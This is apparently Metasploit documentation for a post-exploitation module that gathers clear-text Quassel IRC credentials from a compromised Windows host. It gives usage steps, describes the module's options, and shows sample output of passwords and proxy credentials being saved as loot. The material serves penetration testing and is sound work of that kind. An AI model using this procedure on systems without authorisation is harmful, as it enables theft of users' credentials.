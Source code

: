 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Quassel IRC Client.

The Quassel IRC Client is avaialble from (https://quassel-irc.org/downloads).

This module extracts information from the quasselclient.ini file in the "AppData\Roaming\quassel-irc.org" directory.

This module extracts server information such as host name, port, account name, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/quasell_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Quassel irc's Quasselclient.ini file found
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_QuasselIRCquass_570372.ini

[+] 1\HostName=10.245.100.2
[+] 2\HostName=10.0.0.3
[+] 1\Port=4242
[+] 2\Port=1234
[+] 1\AccountName=Test
[+] 2\AccountName=Test#2
[+] 1\Password=tiaspbiqe2r
[+] 2\Password=tiaspbiqe2r
[+] 1\ProxyHostName=localhost
[+] 2\ProxyHostName=
[+] 1\ProxyPort=8080
[+] 2\ProxyPort=8080
[+] 1\ProxyUser=test
[+] 2\ProxyUser=
[+] 1\ProxyPassword=tiaspbiqe2r
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_EXTRACTIONquasse_134569.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Verbose Output
```

msf6 post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Quassel irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Quassel irc's base folder found
[*] Found the folder containing specified artifact for quasselclient.ini.
[*] Quassel irc's Quasselclient.ini file found
[*] Processing C:\Users\test\AppData\Roaming\quassel-irc.org
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_QuasselIRCquass_310535.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\HostName=10.245.100.2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\HostName=10.0.0.3
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Port=4242
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Port=1234
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\AccountName=Test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\AccountName=Test#2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyHostName=localhost
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyHostName=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyUser=test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyUser=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPassword=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_EXTRACTIONquasse_967148.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
